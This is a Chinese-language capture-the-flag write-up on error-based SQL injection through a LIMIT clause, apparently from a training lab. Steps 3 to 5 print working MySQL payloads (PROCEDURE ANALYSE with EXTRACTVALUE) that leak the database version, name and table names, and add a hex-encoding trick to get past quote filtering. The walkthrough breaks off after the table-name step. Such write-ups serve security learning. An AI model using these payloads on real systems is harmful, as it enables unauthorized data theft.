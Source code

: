 名称：到底能不能回显

背景：小明经过学习，终于对SQL注入有了理解，她知道原来sql注入的发生根本原因还是数据和语句不能正确分离的原因，导致数据作为sql语句执行；但是是不是只要能够控制sql语句的一部分就能够来利用获取数据呢？小明经过思考知道，where条件可控的情况下，实在是太容易了，但是如果是在limit条件呢？

![在这里插入图片描述](img/2f3ca25b458717ee0c3f182f5b13c4e1.png)【解题过程】

1.  熟悉网页：改变start发现页面内容会发生变化，进而了解到start参数为limit关键词底下用于显示数据库中数据`id=start`的数据：![在这里插入图片描述](img/07b1d7e4f71ac4c9099dd215b99d849d.png)![在这里插入图片描述](img/94a6e4e3baa13f64aa04807c460628bc.png)
2.  注入点判断：确定start参数存在注入：
    ![在这里插入图片描述](img/edb253425e1c22dddb4631fafffa675b.png)
3.  结合前面的理论基础，直接对`Limit`进行报错注入：`procedure analyse(extractvalue(1,concat(0x7e,version())),1);%23`
    ![在这里插入图片描述](img/b3d7f301d5e7e944c831ad6e72c80890.png)
4.  爆出当前数据库名称：`procedure analyse(extractvalue(1,concat(0x3a,(select database()))),1);%23`
    ![在这里插入图片描述](img/20e2bc04d2ffc91149a6d3482ea9b55d.png)
5.  爆出当前数据库中的第一个表的名称：`procedure analyse(extractvalue(1,concat(0x3a,(select table_name from information_schema.tables where table_schema ='mydbs' limit 0,1))),1);%23`![在这里插入图片描述](img/91c235e08ce5abc9513cf25948121497.png)
    没事，使用十六进制即可：`procedure analyse(extractvalue(1,concat(0x3a,(select table_name from information_schema.tables where table_schema =0x6d79646273 limit 0,1))),1);%23`